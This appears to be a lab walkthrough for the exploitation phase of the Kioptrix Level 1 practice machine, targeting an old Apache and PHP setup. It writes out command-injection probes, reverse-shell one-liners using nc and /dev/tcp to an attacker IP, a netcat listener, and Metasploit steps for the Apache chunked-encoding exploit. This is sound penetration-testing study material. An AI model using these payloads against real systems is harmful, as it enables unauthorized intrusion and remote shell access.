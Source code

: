 💥 Exploitation – Kioptrix Level 1

This phase focuses on exploiting the vulnerable Apache web server and PHP configuration to gain initial shell access to the system.

---

## 🌐 1. Apache 1.3.20 + PHP 4.3.10 – Web Exploitation

These versions are very old and vulnerable to several attacks, including **remote code execution** through improperly configured PHP scripts.

---

## 🔍 Step 1: Revisit `/test.php` or Custom Input Forms

If `/test.php` or similar pages accept user input (e.g., via GET or POST), test for command injection:

```bash
http://192.168.1.110/test.php?cmd=ls
````

Try payloads like:

```
;id
|id
&& whoami
```

If the output is reflected in the response — it's vulnerable to **command injection**.

---

## 🔥 Step 2: Manual Reverse Shell via Command Injection

If confirmed, use this payload to get a reverse shell:

```bash
http://192.168.1.110/test.php?cmd=nc -e /bin/sh <your-ip> 4444
```

Or use:

```bash
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
```

### ➤ On your machine:

```bash
nc -lvnp 4444
```

✅ You should receive a shell!

---

## 🛠️ Step 3: Apache Exploit (Optional)

If injection doesn’t work, try a **Metasploit** exploit for Apache 1.3.20 + FreeBSD:

```bash
msfconsole
search apache chunked
```

Use:

```bash
use exploit/freebsd/http/apache_chunked
set RHOST 192.168.1.110
set RPORT 80
run
```

✅ This provides root shell if successful.

---

## 🔓 Step 4: Access Gained

Once inside:

```bash
whoami
hostname
uname -a
```

You’ll likely land as `www-data` or a limited user.

---

## 📌 Successful Exploits Used

| Exploit Type           | Method                          | Result        |
| ---------------------- | ------------------------------- | ------------- |
| Command Injection      | via vulnerable PHP file         | Limited shell |
| Apache Buffer Overflow | Apache chunked transfer exploit | Root shell    |

---

📂 Proceed to [`privilege-escalation.md`](./privilege-escalation.md) if you landed a limited shell and need to escalate to root.
